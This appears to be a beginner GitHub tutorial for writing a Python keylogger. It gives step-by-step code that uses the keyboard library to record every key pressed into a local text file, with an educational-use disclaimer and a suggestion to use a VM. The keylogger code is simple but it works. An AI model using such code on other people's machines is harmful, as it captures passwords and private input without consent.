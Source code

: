 # Keylogger

Basic beginner keylogger

# Disclaimer

This tutorial is for educational purposes only and should only be used on your personal system. 
# Prerequisites

Personal host, I recommend doing this in a Windows VM.

Python, code editor, Im using Visual Studio Code.

# Step 1
Install the Required Library.

Open your command prompt or terminal and execute the following command: "pip install keyboard"

# Step 2 Importing the Necessary Libraries
This library will enable us to work with keyboard inputs. Insert the following line of code:

import keyboard

# Step 3 
Define the Log File

In this example, we’ll use ‘keystrokes.txt’ as the file name. Feel free to modify it as desired. Add the following line of code:

log_file = 'keystrokes.txt'

# Step 4
Create the Key Press Event Function

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write('{}\n'.format(event.name))
        
# Step 5 
Register the Key Press Event

Register the ‘on_key_press’ function to be called whenever a key is pressed. This will enable our code to capture the keystrokes. Add the following line:

keyboard.on_press(on_key_press)
# Step 6 
Finally, we want our program to wait until a key is pressed before it exits. Use the 

‘keyboard.wait()’

function to accomplish this.

# Step 7: 
Run the Code

![Screenshot 2024-07-29 114950](https://github.com/user-attachments/assets/b4c6529f-d7b0-4ef3-b638-9813c1f0cb9b)

Save your Python script with a ‘.py’ extension (e.g., ‘keylogger.py’). Open your command prompt or terminal, navigate to the directory where the script is located, and execute the command:

python3 keylogger.py

 
